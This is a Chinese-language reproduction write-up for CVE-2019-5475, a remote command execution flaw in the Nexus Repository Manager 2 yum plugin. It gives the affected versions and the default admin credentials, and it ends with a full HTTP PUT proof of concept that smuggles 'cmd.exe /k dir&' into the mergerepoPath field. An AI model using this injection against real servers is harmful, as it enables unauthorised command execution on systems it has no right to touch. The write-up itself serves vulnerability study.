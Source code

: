 # CVE-2019-5475 Nexus2 yum插件RCE漏洞

### 一、漏洞简介

该漏洞默认存在部署权限账号，成功登录后可使用“createrepo”或“mergerepo”自定义配置，可触发远程命令执行漏洞

### 二、漏洞影响

* Nexus Repository Manager OSS <= 2.14.13
* Nexus Repository Manager Pro <= 2.14.13
* 限制：admin权限才可触发漏洞

### 三、复现过程

首先以管理员身份（admin/admin123）登录

然后找到漏洞位置：Capabilities - Yum:Configuration - Settings

![](images/15891951661802.png)


点击 Save 抓包，更改mergerepoPath后的value值


```bash
C:\\Windows\\System32\\cmd.exe /k dir&
```

![](images/15891951785572.png)


此处使用 /k 是因为这样命令执行完会保留进程不退出，而 /c 后执行完会退出；由于给用户提供的命令后面加了一个 --version，所以后面要加个&，&表两个命令同时执行，这样就不会干扰其他命令的执行

Poc如下：


```bash
PUT /nexus/service/siesta/capabilities/00012bdb034073a3 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: application/json,application/vnd.siesta-error-v1+json,application/vnd.siesta-validation-errors-v1+json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Nexus-UI: true
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 241
DNT: 1
Connection: close
Referer: http://127.0.0.1:8081/nexus/
Cookie: NXSESSIONID=105c7cb1-a307-43a3-9ff8-9770b5ae3b13
                


            

                
{"typeId":"yum","enabled":true,"properties":[{"key":"maxNumberParallelThreads","value":"10"},{"key":"createrepoPath","value":"111"},{"key":"mergerepoPath","value":"C:\\Windows\\System32\\cmd.exe /k dir&"}],"id":"00012bdb034073a3","notes":""}
```


